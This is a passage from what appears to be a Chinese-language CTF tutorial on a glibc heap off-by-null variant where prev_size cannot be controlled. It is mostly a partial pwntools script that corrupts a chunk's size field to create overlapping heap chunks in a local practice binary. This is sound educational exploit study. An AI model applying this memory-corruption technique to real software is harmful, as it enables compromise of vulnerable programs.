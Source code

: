 这里有一个前提即使合并的两个chunk要是再一个unsrotbin中的

### 变种一 prev_size不能控制

但是再实践中会出现一些把prev_size给填充一个随机数使得我们不能覆盖和修改prev_size位从而对size进行一个修改

因此我们这里就要使用另外的一种方法来进行一个构造使得他形成一个heap overlapping

```py
from pwn import *

elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))

#这里我们要创建四给chunk其中第一个chunk0是用来offbynull的chunk，chunk1是用来分割的chunk，chunk2是用来合并的chunk
add_chunk(0,0x18)
add_chunk(1,0x408)
add_chunk(2,0x2f0)
add_chunk(3,0x10)

delete_chunk(1)
edit_chunk(0,b'a'*0x18+p8(0))#这里我们把chunk的数据改小原本0x410大小的数据修改位0x400
#这里四个堆块是对数据进行了一个分割使得他的总体大小还是0x400其中的chunk5和chunk7是用来分割chunk6的使得chunk6可以释放到unsortbin中获取libc
add_chunk(4,0x1f0)
add_chunk(5,0x10)
add_chunk(6,0x1f0-0x40)
add_chunk(7,0x10)

delete_chunk(4)
delete_chunk(2)
delete_chunk(6)

#再次给他申请出来
gdb.attach(p)

p.interactive()
```
